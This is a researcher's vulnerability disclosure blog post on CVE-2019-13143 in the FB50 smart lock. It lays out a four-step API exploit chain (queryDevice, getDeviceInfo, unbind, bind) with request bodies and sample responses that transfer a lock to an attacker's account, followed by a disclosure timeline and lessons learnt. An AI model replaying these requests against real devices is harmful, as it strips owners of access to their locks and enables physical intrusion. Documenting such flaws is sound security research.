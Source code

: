 ```yaml
---
template: text.html
title: Picking the FB50 smart lock (CVE-2019-13143)
subtitle: … and lessons learnt in IoT security
date: 2019-08-05
url: fb50.md
---
```


(*originally posted at [SecureLayer7's Blog](http://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure), with my edits*)

## The lock

The lock in question is the FB50 smart lock, manufactured by Shenzhen
Dragon Brother Technology Co. Ltd. This lock is sold under multiple brands
across many ecommerce sites, and has over, an estimated, 15k+ users.

The lock pairs to a phone via Bluetooth, and requires the OKLOK app from
the Play/App Store to function. The app requires the user to create an
account before further functionality is available. 
It also facilitates configuring the fingerprint,
and unlocking from a range via Bluetooth.

We had two primary attack surfaces we decided to tackle---Bluetooth (BLE)
and the Android app.

## Via Bluetooth Low Energy (BLE)

Android phones have the ability to capture Bluetooth (HCI) traffic
which can be enabled under Developer Options under Settings. We made 
around 4 "unlocks" from the Android phone, as seen in the screenshot.

![wireshark packets](/static/img/bt_wireshark.png)

This is the value sent in the `Write` request:

![wireshark write req](/static/img/bt_ws_value.png)

We attempted replaying these requests using `gattool` and `gattacker`,
but that didn't pan out, since the value being written was encrypted.[^1]

## Via the Android app

Reversing the app using `jd-gui`, `apktool` and `dex2jar` didn't get us too
far since most of it was obfuscated. Why bother when there exists an 
easier approach---BurpSuite.

We captured and played around with a bunch of requests and responses,
and finally arrived at a working exploit chain.

## The exploit

The entire exploit is a 4 step process consisting of authenticated 
HTTP requests:

1. Using the lock's MAC (obtained via a simple Bluetooth scan in the 
vicinity), get the barcode and lock ID
2. Using the barcode, fetch the user ID
3. Using the lock ID and user ID, unbind the user from the lock
4. Provide a new name, attacker's user ID and the MAC to bind the attacker
to the lock

This is what it looks like, in essence (personal info redacted).

### Request 1

```
POST /oklock/lock/queryDevice
{"mac":"XX:XX:XX:XX:XX:XX"}
```

Response:

```
{
   "result":{
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0
   },
   "status":"2000"
}
```

### Request 2

```
POST /oklock/lock/getDeviceInfo

{"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}
```

Response:

```
   "result":{
      "account":"email@some.website",
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0,
      "userId":<USER ID>
   }
```

### Request 3

```
POST /oklock/lock/unbind

{"lockId":"<LOCK ID>","userId":<USER ID>}
```
### Request 4

```
POST /oklock/lock/bind

{"name":"newname","userId":<USER ID>,"mac":"XX:XX:XX:XX:XX:XX"}
```

## That's it! (& the scary stuff)

You should have the lock transferred to your account. The severity of this
issue lies in the fact that the original owner completely loses access to
their lock. They can't even "rebind" to get it back, since the current owner 
(the attacker) needs to authorize that. 

To add to that, roughly 15,000 user accounts' info are exposed via IDOR.
Ilja, a cool dude I met on Telegram, noticed locks named "carlock", 
"garage", "MainDoor", etc.[^2] This is terrifying.

*shudders*

## Proof of Concept

[PoC Video](https://twitter.com/icyphox/status/1158396372778807296)

[Exploit code](https://github.com/icyphox/pwnfb50)

## Disclosure timeline

- **26th June, 2019**: Issue discovered at SecureLayer7, Pune
- **27th June, 2019**: Vendor notified about the issue
- **2nd July, 2019**: CVE-2019-13143 reserved
- No response from vendor
- **2nd August 2019**: Public disclosure

## Lessons learnt

**DO NOT**. Ever. Buy. A smart lock. You're better off with the "dumb" ones
with keys. With the IoT plague spreading, it brings in a large attack surface
to things that were otherwise "unhackable" (try hacking a "dumb" toaster).

The IoT security scene is rife with bugs from over 10 years ago, like
executable stack segments[^3], hardcoded keys, and poor development 
practices in general.

Our existing threat models and scenarios have to be updated to factor 
in these new exploitation possibilities. This also broadens the playing 
field for cyber warfare and mass surveillance campaigns. 

## Researcher info

This research was done at [SecureLayer7](https://securelayer7.net), Pune, IN by:

* Anirudh Oppiliappan (me)
* S. Raghav Pillai ([@_vologue](https://twitter.com/_vologue))
* Shubham Chougule ([@shubhamtc](https://twitter.com/shubhamtc))

[^1]: [This](https://www.pentestpartners.com/security-blog/pwning-the-nokelock-api/) article discusses a similar smart lock, but they broke the encryption.
[^2]: Thanks to Ilja Shaposhnikov (@drakylar).
[^3]: [PDF](https://gsec.hitb.org/materials/sg2015/whitepapers/Lyon%20Yang%20-%20Advanced%20SOHO%20Router%20Exploitation.pdf)


